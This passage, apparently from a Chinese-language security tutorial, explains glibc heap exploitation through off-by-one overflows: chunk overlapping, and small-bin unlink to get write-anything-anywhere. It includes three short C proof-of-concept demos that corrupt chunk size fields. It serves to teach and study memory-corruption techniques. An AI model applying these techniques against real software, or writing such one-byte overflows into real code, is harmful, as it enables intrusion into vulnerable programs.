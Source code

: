 3. malloc b1,malloc b2

4. free C

5. free b1

6. malloc B

7. overlapping b2

这种利用方式成功的原因有两点:

通过prev_chunk()宏查找前块时没有对size域进行验证

当B块的size域被伪造后，下一块的pre_size域无法得到更新。

off-by-one small bin

![](http://p1.pstatp.com/large/f7b000304aadca9b087)

这种方法是要触发unlink宏，因此需要一个指向堆上的指针来绕过fd和bk链表的check。

需要在A块上构造一个伪堆结构，然后覆盖B的pre_size域和inuse域。这样当我们free B时，就会触发unlink宏导致指向堆上的指针ptr的值被改成&ptr-0xC(x64下为&ptr-0x18)。通过这个特点，我们可以覆写ptr指针，如果条件允许的话，几乎可以造成无限次的write-anything-anywhere。

1. 在A块中构造伪small bin结构，并且修改B块的prev_size域和inuse域。

2. free B块

3. ptr指针被改为&ptr-0xC

off-by-one large bin

large bin通过unlink造成write-anything-anywhere的利用方法最早出现于Google的Project Zero项目的一篇文章中，具体链接是

https://googleprojectzero.blogspot.fr/2014/08/the-poisoned-nul-byte-2014-edition.html

在这篇文章中，提出了large bin检验仅仅是通过assert断言的形式来进行的，并不能真正的对漏洞进行有效的防护。但是经过我的测试发现，目前版本的ubuntu和CentOS已经均具备有检测large unlink的能力，如果发现存在指针被篡改的情况，则会抛出“corrupted double-linked list(not small)”的错误，之后翻阅了一下glibc中ptmalloc部分的实现代码却并没有发现有检测这部分的代码，猜测大概是后续版本中加入的。因为这种利用方式的意义已经不是很大，这里就不在详细列出步骤也不提供测试DEMO了。

0x07 测试DEMO

1.off-by-one overwrite allocated

12345678910111213141516int main(void){ char buf[253]=""; void *A,*B,*C; void *Overlapped; A=malloc(252); B=malloc(252); C=malloc(128); memset(buf,'a',252); buf[252]='\x89'; //把C块包含进来 memcpy(A,buf,253);//A存在off-by-one漏洞 free(B); Overlapped=malloc(500);}

这段代码演示了通过off-by-one对C块实施了overlapping。通过返回的变量Overlapped就可以对C块进行任意的读写了。

2.off-by-one overwrite freed

12345678910111213141516int main(void){ char buf[253]=""; void *A,*B,*C; void *Overlapped; A=malloc(252); B=malloc(252); C=malloc(128); free(B); memset(buf,'a',252); buf[252]='\x89'; memcpy(A,buf,253);//A存在off-by-one漏洞 Overlapped=malloc(380);}

这个DEMO与上面的类似，同样可以overlapping后面的块C，导致可以对C进行任意读写。

3.off-by-one null byte

12345678910111213141516int main(void){ void *A,*B,*C; void *B1,*B2; void *Overlapping; A=malloc(0x100); B=malloc(0x208); C=malloc(0x100); free(B); ((char *)A)[0x104]='\x00'; B1=malloc(0x100); B2=malloc(0x80); free(B1); free(C); malloc(0x200); }
